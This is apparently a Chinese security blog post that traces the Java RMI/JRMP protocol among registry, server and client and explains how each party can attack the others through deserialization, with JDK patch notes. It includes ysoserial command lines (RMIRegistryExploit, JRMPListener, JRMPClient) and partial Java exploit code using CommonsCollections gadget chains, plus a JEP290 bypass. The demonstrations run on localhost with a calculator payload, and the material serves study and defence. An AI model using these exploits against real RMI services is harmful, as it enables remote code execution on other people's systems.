RMI是一个基于序列化的Java远程方法调用机制。作为一个常见的反序列化入口，它和反序列化漏洞有着千丝万缕的联系。与RMI相关的攻击方式主要是:
- 直接攻击RMI
- JNDI注入
这篇文章主要总结RMI自身的安全问题，分析注册中心、客户端与服务端之间的交互通信流程并总结攻击RMI注册中心，RMI服务端以及RMI客户端的方式。
RMI介绍
RMI依赖的通信协议为JRMP，该协议为Java定制，要求服务端与客户端均为Java编写。反序列化漏洞主要与JRMP有关，在通信过程中时通过序列化方式进行编码传输的。无论在JRMP的客户端还是服务端，当接收到JRMP协议数据时，都会将序列化的数据进行反序列化，因此造成了RMI注册中心、RMI服务端、RMI客户端都易受攻击的局面。
RMI分为三个主体部分:
- Client-客户端
1 | Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099); |
- Server-服务端
1 | HelloImpl remote = new HelloImpl(); |
- Registry-注册中心
1 | LocateRegistry.createRegistry(1099); |
一般注册中心和服务端都是在一块，因为注册中心仅允许来自本地的bind/rebind/unbind请求。在这里我们把它们作为独立的个体描述。
远程对象
任何可以被远程调用的方法的对象就是远程对象，它一般在服务端。用于提供客户端进行方法调用。它必须实现java.rmi.Remote接口，且需要继承UnicastRemoteObject类。(继承UnicastRemoteObject类是为了方便自动调用其exportObject()方法来生成本地Stub的代理对象，然后调用LiveRef.exportObject()方法来启动socket服务)。
注册中心也是一个远程对象，默认监听在1099端口上，与普通远程不一样的是，它需要自己指定端口。
注册中心与服务端
服务端与注册中心之间的交互主要是服务端向注册中心绑定服务，即bind/rebind操作。关注bind代码。
1 | Registry registry = LocateRegistry.getRegistry(1099); |
[服务端]首先getRegistry(1099)获取到了注册中心存根RegistryImpl_Stub(即注册中心RegistryImpl的代理)，然后调用其bind函数。定位到此函数.

先newCall建立连接，然后将object序列化发送至注册中心。注意这里的opnum参数，它代表了当前的操作。
1 | 0 : bind |
[注册中心]此时注册中心，接收数据的为RegistryImpl_Skel#dispatch。需要明白的是，RMI就是通过Stub和Skeleton在客户端和服务端传输数据。这里的var3即前面发送的opnum参数为0，即bind操作，这里直接定位到case 0:的部分。case 0中的0代表的是bind操作。

在这里完成了反序列化操作后，进入sun.rmi.registry.RegistryImpl#bind函数。

在这里可以看到，它在put函数之前，做了对于是否是本地的绑定的判断checkAccess("Registry.bind")。仅允许来自本地的bind操作。同理，可以看到，rebind/unbind操作都只能在本地完成。
在完成这个bind操作之后，就进入getResultStream()函数，跟进它。

它会向当前连接中发送81这个传输返回码，然后发送1这个值以及ID。到这里注册中心的部分完成了，继续往回看服务端的处理。关于81以及1这个数字的含义如下。发送81代表是返回，而紧随的数字1，表示是正常返回。

[服务端]服务端在发送完bind的数据后，接着执行super.ref.invoke()方法，其实也就是UnicastRef.invoke()方法，在这里面继续执行var1.executeCall()函数。跟进该函数。

在该函数中确实接收到了注册中心的返回值，首先反序列化出var4传输返回码，该值必须为81.前面也确实传了81这个值。紧接着反序列化出var1。该值为1。因此进入case 1:的分支，直接返回了。但从代码中可以看到，若var1的值为2，则会进行反序列化。到这里整个流程分析结束了。

可以看到在上述的过程中，服务端和注册中心都有能够反序列化的点。
服务端攻击注册中心–bind (JDK<8u121)
服务端在进行bind时，将name和object发送至注册中心，注册中心在这里进行了直接的反序列化。前面提到过，为了安全起见，仅接收本地的bind请求，只是这个判断checkAcess(“Registry.bind”)发生在反序列化之后。因此造成了，虽然bind失败，但反序列化已经发生了。
因此，向注册中心bind/rebind一个精心构造的remote对象，即可造成RCE。这里可以选择CommonsCollections系列的gadget进行利用。前提是注册中心也存在对应的gadget。
EXP
这是一个绑定了恶意的远程对象的服务端代码，利用了CommonsCollections5。构造了一个BadAttributeValueException对象，由于传过去的对象需要实现Remote接口，选择了动态代理的方法来满足这一条件。在这里的动态代理类选择了AnnotationInvocationHandler。反序列化的触发点为handler的memberValues属性即tmpMap被反序列化时执行了利用链，从而RCE了。
1 | public class HelloServer { |
在执行这段代码后，注册中心就弹出了计算器(环境为JDK8u111)。这段代码同时也是ysoserial工具的RMIRegistryExploit代码。该工具的利用方式为
1 | java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit ip port CommonsCollections7 "open /System/Applications/Calculator.app" |
补丁
- 在JDK8u141之后，将判断是否为本地绑定请求挪到了执行反序列化之前，如下所示:

- JDK8u121修复版本后，出现了JEP290。它在注册中心端内置了白名单，仅允许特定的类被反序列化。而上述代码使用的AnnotationInvocationHandler类不在白名单中，不允许反序列化。(后面介绍了绕过方式)
注册中心攻击服务端
服务端在接收注册中心返回值时，若返回的是TransportConstants.ExceptionReturn，即值为2，就会进入case 2的分支，进行反序列化。因此注册中心攻击服务端的方式，就是伪造一个恶意的注册中心，向服务端返回TransportConstants.Return、TransportConstants.ExceptionalReturn、UID以及恶意的object。
EXP
ysoserial工具实现了这么一个恶意的注册中心，ysoserial.exploit.JRMPListener。截取部分关键代码，如下所示:

可以看到它发送了81，2，ID以及恶意的obj。复现的方式很简单，首先用ysoserial启动一个注册中心。
1 | java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "open /Applications/Calculator.app" |
然后启动服务端代码，进行bind操作，就会发现在服务端弹出了计算器。
绕过JEP290 (JDK<8u232_b09)
前面攻击注册中心时，在JDK8u121后，就出现了JEP290限制。要绕过这个限制，需要在白名单中找到可以利用的对象。这里关注UnicastRef对象。 在RMI过程中客户端与注册中心、服务端与注册中心之间建立连接都用到了UnicastRef类。用UnicastRef对象新建一个RMI连接可以绕过JEP290的限制。
整个思路就是:封装一个UnicastRef对象，其中包括恶意注册中心的ip和port。使得其在原注册中心被反序列化时，反向连接一个恶意注册中心，此时原注册中心相当于客户端，由1.2攻击可知，恶意注册中心向客户端发送恶意的payload，这一过程是不受JEP290影响的。
来看一下客户端连接上注册中心的具体实现，定位到java.rmi.registry#getRegistry。

它通过TCPEndpoint注册注册中心的host、port等信息。然后用UnicastRef封装了LiveRef类。最后进入Util.createProxy()方法。跟进此方法。

在该函数中，使用动态代理处理类RemoteObjectInvocationHandler作为UnicastRef动态处理类。到这里整个连接过程结束了。事实上只需要封装一个包含恶意注册中心的host、port的UnicastRef类，然后使用RemoteObjectInvocationHandler动态代理它。
ysoserial工具中实现了向原注册中心(受害者)发送UnicastRef对象的JRMPClient。ysoserial.payloads.JRMPClient。来看一下它的关键代码。

可以看到与上述的过程一样。
利用
先启动一个恶意的注册中心，可以利用JRMPListener实现。
1 | java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "open /Applications/Calculator.app" |
然后启动一个客户端，还是利用的是1.1攻击中ysoserial中的RMIRegistryExploit，其中payload选择ysoserial.payloads.JRMPClient而不是CommonsCollections。
1 | java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 JRMPClient "127.0.0.1:1098" |
此时在注册中心弹出了计算器。注册中心在接收到UnicastRef对象后进行反序列化最终由DGCClient向恶意注册中心发起连接，即在反向连接的过程是DGC通信方式。有兴趣的可以自己跟一下过程。
补丁
在JDK8u232_b09版本中，修复了这种反向发起JRMP连接的利用。修复点包括:
- 在
sun.rmi.registry.RegistryImpl_Skel#dispath中在反序列化时，若反序列化失败/类型转换失败，就会进入discardPendingRefs()。它会清除掉目前的RMI连接。

- 第一个补丁，其实在清除之前已经执行了反序列化。但是在复现过程中还是失败了，因为在DGC通信中，对发送/接收的数据都进行了过滤。详情可见后面
4.1#补丁。
注册中心与客户端
客户端与注册中心的交互主要是客户端通过list()、lookup()函数向注册中心发出请求。与服务端一样，客户端首先通过LocateRegistry.getRegistry()获的RegistryImpl_Stub对象，跟进lookup()函数。

[客户端]与服务端一样，先建立连接，注意这里的opnum为2，代表的是lookup操作。它首先将查询的参数值String类型的变量发送出去。
[注册中心]注册中心这边同样是dispatch()函数处理。当case为2时，处理方式如下所示:

先反序列化传入的参数，然后进行lookup()操作，lookup()操作就是简单地根据name参数值查询绑定的Remote对象。完成这一部分后，与上面一样，注册中心向客户端返回值。然后还有一个把查询到的Remote对象进行序列化传输。
[客户端]客户端接收到注册中心的返回值后，进行的invoke函数与前面服务端一样。若接收到了ransportConstants.ExceptionalReturn就会进行反序列化。与服务端bind操作不同的是，在完成这一系列后，它还会从当前的输入流中反序列化出Remote对象。至此整个过程结束。
客户端攻击注册中心(JDK<8u121)
这一点与服务端类似，即注册中心接收到客户端传过来的数据后，会进行反序列化。因此，若客户端lookup的参数值为一个object类型，就可以使得注册中心反序列化执行任意命令。因此，需要修改lookup函数，使之支持object类型参数。
利用
在构造lookup函数请求时，只需要重新实现lookup函数的实现。这里介绍wh1t3p1g师傅写的一个改造版lookup函数。将Naming.lookup和RegistryImpl_Stub.lookup合并在一起了。

利用CommonsCollections5，构造如下payload。
1 | public class HelloClient2 { |
其中Naming的look函数实现，我从wh1t3p1g师傅写的代码中抽出来了。
1 | public class Naming { |
运行客户端的代码，会在注册中心弹出计算器。
补丁
相对于服务端的bind方式需要在本地执行，lookup函数没有这个限制。但是它同样受到JEP290的限制。
绕过
绕过方式与前面所提的绕过方式一样。lookup一个UnicastRef对象。
注册中心攻击客户端
从这个过程中可以看到，客户端被攻击执行反序列化的条件和服务端杯攻击执行反序列化的条件一样。与1.2一样。这里就不再赘述了。若是不采用返回TransportConstants.ExceptionalReturn，也可以将返回的Remote对象换成恶意的object。
客户端与服务端
客户端与服务端之间的交互过程，主要是在客户端通过lookup获取到了注册在注册中心的远程对象引用后，调用远程对象方法时。在调用方法时将与服务端进行连接，将方法及各项参数传输过去。服务端在接收到数据后，在服务端完成方法的调用，然后将结果返回给客户端的一个过程。接下来就来仔细分析一下它。
首先在这个过程中，客户端需要具有远程对象的接口。且其全限定名必须与服务器上的对象完全相同。可以理解为Stub对象是远程对象在本地的一个代理，当客户端调用方法时，Stub对象将会调用通过网络传递给远程对象。
[客户端]客户端在完成lookup查询后返回的远程对象Stub使用RemoteObjectInvocationHandler类进行动态代理，即在调用其任何方法之前，必须先调用RemoteObjectInvocationHandler#invoke方法。

跟进invokeRemoteMethod方法。

在这里进入UnicastRef.invoke()函数。继续跟进。

在该函数中，首先建立与服务端的连接，然后向服务端发送调用方法的参数类型、参数值。
[服务端]服务端接收处理客户端传过来的数据的函数在sun.rmi.server.UnicastServerRef#dispatch。定位到该函数

传入的var3为-1，直接进入后面，通过传入的var4，也就是方法的hash值，来查询到方法Method Var8。然后将输入流进行unmarshalCustomCallData，相当于解密一样。然后进入unmarshalParameters()函数，该函数中对var1进行了判断，然后进入unmarshalParametersUnchecked()函数，跟进该函数。

该函数中获取方法的参数类型，然后进入unmarshalValue，根据参数类型反序列化出参数值。跟进unmarshalValue函数。

这里会根据参数类型进行反序列化，若参数类型不是原生类型，则就直接进行object的反序列化readObject。

在反序列化得到参数值之后，回到dispatch方法，接着往下走，然后直接调用方法，获得方法调用的返回值var10。紧接着又到了熟悉的getResultStream(true)方法，这里会向客户端返回81、1以及ID值。
然后对方法调用的返回值进行判断，若返回值不为Void类型，进入marshalValue()方法。在marshalValue()方法中会对其进行序列化发送给客户端。
[客户端]客户端在完成发送数据之后，就会进入var7.executeCall()方法等待服务端的返回值，和之前一样，若接收到ransportConstants.ExceptionalReturn后，就会进行直接的反序列化。
然后继续获取方法调用的方法值，若该值不为void，会进入unmarshalValue()方法根据类型进行反序列化。到这里整个的方法调用就结束了。
从以上流程中可以进行反序列化的点来看，存在以下攻击。
客户端攻击服务端
若客户端调用的方法参数类型为object类型，则传入一个恶意的object类型，进行反序列化则会导致服务端执行任意命令。实际场景中很少有object类型的参数。攻击者可以用恶意对象替换从Object类派生的参数。
利用
将服务端的HelloInterface接口中的sayHello函数参数改为object类型。同时将客户端的HelloInterface接口中方法的参数改为object类型。
客户端的代码如下:
1 | public class HelloClient1 { |
运行客户端代码，会导致服务端反序列化，弹出计算器。
服务端攻击客户端
客户端导致反序列化点有如下:
- 接收到ransportConstants.ExceptionalReturn后，进行反序列化。
- 方法调用的返回值是一个恶意object，导致反序列化。
对于第一点和1.2、2.2一样。对于第二点，直接修改服务端方法的返回值即可。
DGC通讯方式
除了以上容易想到的通信方式，还有DGC(分布式垃圾收集)，这是RMI框架用来管理远程对象生命周期的机制。可以通过与DGC通信的方式发送恶意的payload让注册中心反序列化。
[客户端]定位到sun.rmi.transport.DGCImpl_Stub#dirty。
它的整个过程和前面lookup函数很像。可以看到它先新建了一个socket，然后经过一个过滤，将ObjID、var2以及Lease对象序列化到输出流中。然后执行UnicastRef.invoke函数。
[注册中心]定位到sun.rmi.transport.DGCImpl_Skel#dispatch。case为1的地方。因为前面传输的为1。

可以看到，直接进行了反序列化操作，若传入的是恶意的object就可以RCE了。剩下的流程与客户端使用lookup与注册中心交互的流程一样。
客户端攻击注册中心(JDK < 8u121)
客户端如果通过DGC通信方式向注册中心发送恶意的obj，就会导致反序列化。
ysoserial工具中实现了这样的一个客户端ysoserial.exploit.JRMPClient.java。截取部分关键代码。

可以看到它使用DGC通信方式，且以dirty方法的方式。
利用
实际中只需要启动注册中心，然后启动JRMPClient就可。启动JRMPClient命令。
1 | java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections5 "open /Applications/Calculator.app" |
即可在注册中心弹出计算器。
补丁
JEP290同时也对DGC这种通信方式进行了反序列化类的过滤，定位到DGCImpl#checkInput。

注册中心攻击客户端(JDK<8u232_b09)
注册中心攻击客户端的方法如上面一样。但是JDK8u232_b09之后，它无法接收到恶意的object。从而无法利用，还是上面其他方式攻击客户端更加适用。
补丁
由于前面绕过JEP290的方式进行反向链接时使用的就是DGC通信方式，它在修复时，直接在发送/接收数据时，都会对数据进行一个过滤。导致无法利用。

在发送/接收时，会进行判断。

1 | var1 != UID.class && |
总结
从以上分析中可以看到，JRMP这种基于序列化数据传输协议使得RMI注册中心、客户端、服务端都能互相攻击。一般来说，服务端和注册中心在同一主机上。
注册中心/服务端对客户端的攻击:
- 1.2/2.2/3.2: ExceptionReturn
- 4.2: ExceptionReturn
- JDK<8u232_b09
客户端对注册中心/服务端的攻击:
- 1.1: bind操作
- JDK<8u121
- 1.3: JEP290绕过的bind操作
- JDK<8u232_b09
- 2.1: lookup操作
- JDK<8u121
- 3.1: Object参数
- 4.1: DGC通信
- JDK<8u232_b09